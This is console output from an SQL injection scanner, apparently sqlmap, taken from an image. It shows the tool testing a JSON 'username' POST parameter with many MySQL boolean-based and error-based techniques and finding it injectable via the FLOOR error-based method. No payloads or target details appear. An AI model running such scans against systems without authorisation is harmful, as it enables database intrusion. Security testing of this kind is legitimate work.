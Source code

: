 ```
[19:23:16] [INFO] checking if the target is protected by some kind of WAF/IPS
[19:23:16] [INFO] testing if the target URL content is stable
[19:23:16] [INFO] target URL content is stable
[19:23:16] [INFO] heuristic (basic) test shows that (custom) POST parameter 'JSON username' might be injectable (possible DBMS: 'MySQL')
[19:23:17] [INFO] testing for SQL injection on (custom) POST parameter 'JSON username'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[19:23:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:23:22] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[19:23:22] [INFO] testing 'Generic inline queries'
[19:23:22] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[19:23:25] [WARNING] reflective value(s) found and filtering out
[19:23:28] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[19:23:34] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[19:23:40] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[19:23:51] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[19:24:02] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[19:24:12] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[19:24:23] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[19:24:33] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (bool*int)'
[19:24:52] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (bool*int)'
[19:25:02] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET)'
[19:25:02] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET - original value)'
[19:25:02] [INFO] testing 'MySQL boolean-based blind - Parameter replace (ELT)'
[19:25:03] [INFO] testing 'MySQL boolean-based blind - Parameter replace (ELT - original value)'
[19:25:03] [INFO] testing 'MySQL boolean-based blind - Parameter replace (bool*int)'
[19:25:03] [INFO] testing 'MySQL boolean-based blind - Parameter replace (bool*int - original value)'
[19:25:04] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[19:25:04] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[19:25:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[19:25:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[19:25:05] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Stacked queries'
[19:25:12] [INFO] testing 'MySQL < 5.0 boolean-based blind - Stacked queries'
[19:25:12] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[19:25:20] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[19:25:27] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[19:25:35] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[19:25:43] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[19:25:43] [WARNING] potential permission problems detected ('command denied')
[19:25:51] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[19:25:59] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[19:26:06] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[19:26:14] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[19:26:15] [INFO] (custom) POST parameter 'JSON username' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[19:26:15] [INFO] testing 'MySQL inline queries'
```